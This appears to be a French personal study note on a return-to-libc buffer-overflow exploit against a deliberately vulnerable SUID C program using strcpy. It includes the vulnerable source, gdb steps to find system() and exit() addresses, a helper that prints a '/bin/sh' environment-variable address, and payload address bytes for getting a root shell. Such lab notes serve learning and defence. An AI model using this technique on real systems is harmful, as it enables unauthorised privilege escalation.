 



#### **Théorie**

- La fonction system() de la librairie Libc permet d'exécuter une commande dans un terminal. Si nous réussissons à faire revenir le programme sur l'adresse de cette fonction avec un arguments qui appelle /bin/sh, nous pouvons exécuter un shell en tant que root si le programme victime est en SUID.

#### **Pratique**

##### **Exploit 1**
- **Environnement**
	- L'ordinateur ne doit pas avoir l'ASLR (randomisation de stack) active car nous aurons besoin de l'adresse d'une variable d'environnement, de la fonction systeme et exit. Cependant, cet exploit vise à bypass la désactivation d'exécution d'instructions à partir de la stack. Cette protection nous empêche de mettre dans le buffer notre shellcode car il sera pas exécuté de toute façon.

- **Code source**
```C
Code 
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[]){
	char little_array[512];
	if (argc > 1)
		strcpy(little_array, argv[1]);
}
```

- **Analyse du code source**
	- On voit que notre input (argv) est copié vers un buffer de taille max 512 bytes mais rien ne nous empêche de faire un buffer overflow.

- **Shellcode**
 "\xc0\xf2\x03\x42” //system()
“\x02\x9b\xb0\x42” //exit()
“\xa0\x8a\xb2\x42” //binsh

- **Exploitation**
	- Là on va devoir utilisé gdb. En gros, ce qu'on veut c'est remplacer l'adresse de retour d'une fonction par l'adresse qui pointe vers la fonction system(). La fonction system va donc "déplacer" le processus et va prendre en paramètre ce qu'on place derrière. Ce qu'on va placer derrière c'est l'adresse de la fonction exit() pour pouvoir fermer le programme exploité mais ca ne va pas fermer le processus system(). System va donc lire les paramètres qu'il y a après et nous on va donc mettre l'adresse de la variable d'environnement qui lance /bin/sh.
	- Pour ça, il faut 1) Trouver les adresses de la fonction system() dans l'environnement du programme cible, 2) Trouver l'adresse de la fonction exit() et 3) Créer une variable d'environnement qui lance /bin/sh.
	
		- Dans gdb lancé avec le programme cible, on fait `p system` après avoir fait `run`.
		- Juste après, on fait pareil avec `p exit`
		- Enfin, on peut faire un petit programme qui créer et affiche l'adresse d'une variable d'environnement :
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
	setenv("binsh", "/bin/sh", 1);
	char *binsh_addr = getenv("binsh");
	printf("Adresse de binsh : %p\n", (void *)binsh_addr);
	return 0;
}
```
- 
	- Après ça, on créer vite fait notre shellcode expliqué au début avec d'abord l'adresse de system(), de exit() et enfin de binsh
	- Enfin, on créer un programme qui fait le payload avec un padding à ajusté et qui lance le programme, comme pour les exploit [[strcpy#^aadea3|strcpy]] et [[Nop Sled Strcpy#^a5154f|Nop Sled strcpy]].
	- Si tous se passe bien, tu devrais avoir un shell root qui pop.
